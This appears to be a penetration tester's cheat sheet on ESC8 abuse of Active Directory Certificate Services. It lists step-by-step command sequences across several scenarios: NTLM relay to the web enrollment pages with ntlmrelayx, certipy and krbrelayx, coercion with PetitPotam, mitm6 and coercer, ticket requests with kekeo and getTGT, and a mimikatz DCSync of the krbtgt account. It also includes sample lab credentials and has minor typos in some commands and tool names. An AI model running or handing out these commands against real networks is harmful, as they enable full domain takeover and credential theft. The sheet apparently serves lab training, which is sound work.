 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# General Overview: 
AD CS supports several HTTP-based enrollment methods if additional server roles are installed (Certificate enrollment web service). There are three methods that can test to abuse this technique.

An attacker can use PetitPotam to force a Domain Controller to relay its NTLM credentials to a target host. These credentials can then be forwarded to the Active Directory Certificate Services (AD CS) Web Enrollment pages, allowing the attacker to enroll for a Domain Controller certificate. This certificate can be used to request a Ticket Granting Ticket (TGT), enabling a Pass-the-Ticket attack that compromises the entire domain.

# # Abusing ESC8 Certificate Templates

## Scenario 1 (Certipy, NTLMrelayx, PetitPotman):
- certipy-ad relay -ca 172.21.1.1
- impacket-ntlmrelayx -t http://megacorpone.com/certsrv/csertfnsh.asp -smb2support --adcs --template 'Domain Controller'
- python3 PetitPotam -d megacorpone.com -u afsimmons -p Spawn123! 172.21.1.5 MEGACORP
## Scenario 2: 
- impacket-ntlmrelayx -t http://megacorpone.com/certsrv/csertfnsh.asp -smb2support --adcs --template 'Domain Controller'
- mimikatz> misc::efs /server:dc.lab.local /connect:172.21.1.5 /noauth
-  kekeo> base64 /input:on
- kekeo> tgt::ask /pfx:"BASE64-CERT-FROM-NTLMRELAY" /user:dc$ /domain:megacorpone.com /ptt
- mimikatz> lsadump::dcsync /user:krbtgt
## Scenario 4:
- sudo krbrelayx.py --target http://CA/certsrv -ip attacker_IP --victim target.domain.local --adcs --template Machine
- sudo mitm6 --domain domain.local --host-allowlist target.domain.local --relay CA.domain.local -v
## Scenario 5:
- Source: https://github.com/bats3c/ADCSPwn
- adcspwn.exe --adcs "cs server" --port [local port] --remote [computer]
- adcspwn.exe --adcs cs.megacorpone.com
- adcspwn.exe --adcs cs.megacorpone.com--remote dc.megacorpone.com--port 9001
- adcspwn.exe --adcs cs.megacorpone.com--remote dc.megacorpone.com --output C:\Temp\cert_b64.txt
- adcspwn.exe --adcs cs.megacorpone.com--remote dc.megacorpone.com--username megacorpone.com\afsimmons --password Spawn123! --dc dc.megacorpone.com
## Scenario 6: 
 - impacket-ntlmrelayx -t http://megacorpone.com/certsrv/csertfnsh.asp -smb2support --adcs --template 'Domain Controller'
 - python3 coercer.py <DC_IP> <YOUR_IP>
 - python3 getTGT.py -dc-ip <DC_IP> -pfx <CERT_FILE.pfx> -no-pass